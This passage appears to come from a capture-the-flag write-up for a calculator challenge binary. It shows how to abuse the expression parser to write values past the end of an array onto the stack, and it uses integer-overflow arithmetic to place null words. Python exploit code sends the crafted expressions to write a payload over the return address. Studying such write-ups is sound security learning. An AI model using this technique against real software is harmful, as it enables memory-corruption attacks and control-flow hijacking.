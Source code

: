 But because the data type of pool is `int` so we will need to convert the number we get after inputing expression to make a integer overflow to make it null. For example, if we input `+368+512` and `pool[367]` containing `0xdeadbeef`. After the first expression `+368+512` is parsed and executed, `pool[367]` now contains `0xdeadc0ef` and `pool[368]` contains `512`. 

Then the program will print out `-559038225` which is equal to `0xdeadc0ef` above. So we will use `struct` in python to convert from `-559038225` to `0xdeadc0ef` and then calculate the number we want to add to make it from `0xdeadc0ef` to `0x100000000` (5 bytes in total). And the number we want to add is `0x100000000 - 0xdeadc0ef = 0x21523f11`, convert to int is `559038225`. 

The above is just an example. In our case, we will not only subtract the number printed out but also the number we want to add. For example, the number printed out is `0xdeadc0ef` and the number we want to add is `0x08040201`. We also want to make 4-byte null as above so the number we want to add is `0x100000000 - 0xdeadc0ef - 0x08040201 = 0x194e3d10`, convert to int is `424557840`.

So let's make a function to convert and get the number we want to add:

```python
def getnum(num, need):
	if num<0:
		num = u32(struct.pack('<i', num))
	num = struct.unpack('<i', p32((0x100000000 - num - need)))[0]
	num = str(num)
	if '-' not in num:
		num = '+' + num
	return num
```

And the code will be updated to this:

```python
for i in range(len(payload_list)-1, -1, -1):
	# We don't want program print out anything unrelated to number
	if payload_list[i]==0:
		continue

	# If we have 4-byte null before current inputing number
	if payload_list[i-1]==0:
		payload = f'+{eip+i}+{payload_list[i]}'.encode()
		p.sendline(payload)
		recv = int(p.recvline()[:-1])
		print(recv, payload_list[i])
		
		# If number is equal, just simply subtract
		if recv==payload_list[i]:
			payload = f'+{eip+i}-{payload_list[i]}'.encode()
			p.sendline(payload)
			p.recvline()
		# If number is not equal, means something added
		# Make previous number to opposite of number want to add of current number 
		else:
			t = getnum(recv, payload_list[i])
			payload = f'+{eip+i}{t}'.encode()
			p.sendline(payload)
			p.recvline()
			payload = f'+{eip+i}+{payload_list[i]}'.encode()
			p.sendline(payload)
			p.recvline()
		
	else:
		payload = f'+{eip+i}+{payload_list[i]}'.encode()
		p.sendline(payload)
		p.recvline()
```
